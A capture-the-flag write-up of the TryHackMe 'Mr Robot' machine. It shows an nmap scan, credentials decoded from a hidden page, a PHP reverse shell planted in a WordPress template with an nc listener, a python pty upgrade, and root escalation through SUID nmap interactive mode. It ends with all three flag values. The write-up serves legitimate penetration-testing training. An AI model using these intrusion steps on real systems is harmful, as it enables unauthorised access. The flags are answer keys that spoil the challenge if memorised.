 # Mr Robot CTF

## Description

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

Credit to Leon Johnson for creating this machine.

# #1 - What is key 1?

*Hint: Robots*

Let's get started with a Nmap scan. Nmap reveals 3 ports, 2 of which are opened (http and https). SSH seems to be closed.

~~~
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
~~~

Let's start with the web server. Assisted by the hint, let's get the `robots.txt` file. It discloses 2 hidden files, 1 of which being the key 1.

~~~
$ curl -s http://10.10.185.196/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
unknown@localhost:/data/documents/challenges/TryHackMe/Mr_Robot_CTF$ curl -s http://10.10.185.196/key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
~~~

The second file is a dictionary, that we will probably need to use for the discovery of other locations.

~~~
$ head fsocity.dic 
true
false
wikia
from
the
now
Wikia
extensions
scss
window
~~~

Key1: `073403c8a58a1f80d943455fb30724b9`

# #2 - What is key 2?

*Hint: White coloured font*

gobuster discovers several locations, including:
* /login (Status: 302)
* /wp-content (Status: 301)
* /admin (Status: 301)
* /wp-login (Status: 200)
* /license (Status: 200)
* /wp-includes (Status: 301)

Worpress is installed. Moreover, the directory `/license` discloses credentials:

~~~
$ curl -s http://10.10.185.196/license | tr -d "\n"
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?do you want a password or something?ZWxsaW90OkVSMjgtMDY1Mgo=

$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
~~~

Let's try to use these credentials against Wordpress. It works and we are logged in as administrator! Several points to note here:

* The WordPress version is 4.3.1. Considering the current version is 5.4.1, we are likely to find vulnerabilities.
* There are 2 users:

username | Name | email | profile
---|---|---|---
elliot | Elliot Alderson | elliot@mrrobot.com | Administrator
mich05654 | krista Gordon | kgordon@therapist.com | Subscriber

As we are administrators, we can modify the templates. Go to Appearance > Editor and edit the first template (404.php) by replacing the PHP code with a reverse shell taken from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Make sure you put your local IP.

Now open a listener:

~~~
$ nc -nlvp 1234
~~~

And visit `http://10.10.185.196/404.php` to open the reverse shell.

We see our next key in `/home/robot` but it is only readable by the `robot` user.

~~~
$ ls -l /home/robot/
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
$ whoami
daemon
~~~

We are also provided with the MD5 hash of Mr Robot's password:
~~~
$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
~~~

This hash was found [here](https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b) and the associated password is `abcdefghijklmnopqrstuvwxyz`. Let's try to log in as `robot`.

~~~
$ su - robot
su: must be run from a terminal
~~~

Error... OK, not a problem, let's spawn a shell with python (we first confirm python is installed):

~~~
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su - robot
su - robot
Password: abcdefghijklmnopqrstuvwxyz
$ whoami
whoami
robot
$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
~~~

# #3 - What is key 3?

*Hint: nmap*

Our last key is very likely in the `/root` directory, and we will need a privilege escalation to access it.

The nmap scan reveals that the port 22 (ssh) is closed, probably because the service is not started. We would need to elevate our privileges.

Unfortunately, our user `robot` is not in the sudoers:

~~~
$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
~~~

OK, let's find what programs we have with the `SETUID` bit set owned by `root`:

~~~
$ find / -user root -perm -4000 -print 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
~~~

Interestingly, nmap is on the list (it's also the hint BTW). Besides, it's a very old release (3.81), considering that the current release is 7.80 at the time of this writing.

~~~
$ which nmap
which nmap
/usr/local/bin/nmap
$ nmap --version
nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
~~~

As described [here](https://pentestlab.blog/category/privilege-escalation/), nmap is its older release (2.02 to 5.21) had an interactive mode which allows to execute commands.

Besides, nmap has the `SETUID` bit set, which means that we will be able to run commands as root:

~~~
$ ls -l /usr/local/bin/nmap
ls -l /usr/local/bin/nmap
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
~~~

Let's start `nmap` in interactive mode:

~~~
$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !ls /root
!ls /root
firstboot_done	key-3-of-3.txt
waiting to reap child : No child processes
nmap> !cat /root/key-3-of-3.txt
!cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
waiting to reap child : No child processes
~~~

3rd key: `04787ddef27c3dee1ee161b21670b4e4`